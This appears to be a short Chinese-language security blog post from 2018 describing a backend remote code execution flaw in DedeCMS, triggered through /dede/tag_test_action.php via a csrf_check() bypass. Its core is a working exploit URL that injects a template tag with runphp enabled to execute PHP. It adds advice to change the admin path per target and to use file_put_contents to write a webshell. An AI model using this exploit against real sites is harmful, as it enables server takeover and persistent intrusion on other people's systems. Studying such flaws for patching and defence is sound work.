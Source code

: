 ```yaml
---
title: "dedecms 后台代码执行"
date: 2018-03-30T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['rce', 'php']
categories: ['CMS']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


该漏洞的触发点为 /dede/tag_test_action.php. 起因是 csrf_check() 的绕过, 导致可执行任意代码.

<!--more-->

## EXP

`/dede/tag_test_action.php?url=a&token=&partcode={dede:field name='source' runphp='yes'}phpinfo();{/dede:field}`

根据情况更改后台路径

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/30/1522407172.jpg)

file_put_contents 直接写 webshell